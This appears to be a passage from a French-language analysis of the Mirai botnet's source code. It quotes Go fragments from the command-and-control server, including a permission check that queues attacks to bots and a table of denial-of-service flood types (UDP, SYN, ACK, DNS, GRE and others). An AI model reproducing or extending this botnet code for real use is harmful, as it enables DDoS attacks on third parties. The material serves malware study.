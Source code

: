 ```go
    }
    if can, _ := database.CanLaunchAttack(userInfo.username, atk.Duration, cmd, botCount, 1); !can {
        this.conn.Write([]byte("ERR|Attack cannot be launched\r\n"))
        return
    }

    clientList.QueueBuf(buf, botCount, "")
    this.conn.Write([]byte("OK\r\n"))
}
```

Les fonctions `database.ContainsWhitelistedTargets(atk)` et `database.CanLaunchAttack(userInfo.username, atk.Duration, cmd, botCount, 1)` qui interrogent directement la base de donnée via des requêtes SQL sont définies dans mirai/cnc/database.go.

Les détails de l'attaque demandée sont ensuite transmis aux bots. Le fichier mirai/cnc/attack.go liste les flags permettant de configurer les paquets envoyés pour le déni de service. Les différents types d'attaques résultant des différentes combinaisons de flags sont les suivants:

```go
var attackInfoLookup map[string]AttackInfo = map[string]AttackInfo {
    "udp": AttackInfo {
        0,
        []uint8 { 2, 3, 4, 0, 1, 5, 6, 7, 25 },
        "UDP flood",
    },
    "vse": AttackInfo {
        1,
        []uint8 { 2, 3, 4, 5, 6, 7 },
        "Valve source engine specific flood",
    },
    "dns": AttackInfo {
        2,
        []uint8 { 2, 3, 4, 5, 6, 7, 8, 9 },
        "DNS resolver flood using the targets domain, input IP is ignored",
    },
    "syn": AttackInfo {
        3,
        []uint8 { 2, 3, 4, 5, 6, 7, 11, 12, 13, 14, 15, 16, 17, 18, 25 },
        "SYN flood",
    },
    "ack": AttackInfo {
        4,
        []uint8 { 0, 1, 2, 3, 4, 5, 6, 7, 11, 12, 13, 14, 15, 16, 17, 18, 25 },
        "ACK flood",
    },
    "stomp": AttackInfo {
        5,
        []uint8 { 0, 1, 2, 3, 4, 5, 7, 11, 12, 13, 14, 15, 16 },
        "TCP stomp flood",
    },
    "greip": AttackInfo {
        6,
        []uint8 {0, 1, 2, 3, 4, 5, 6, 7, 19, 25},
        "GRE IP flood",
    },
    "greeth": AttackInfo {
        7,
        []uint8 {0, 1, 2, 3, 4, 5, 6, 7, 19, 25},
        "GRE Ethernet flood",
    },
    "udpplain": AttackInfo {
        9,
```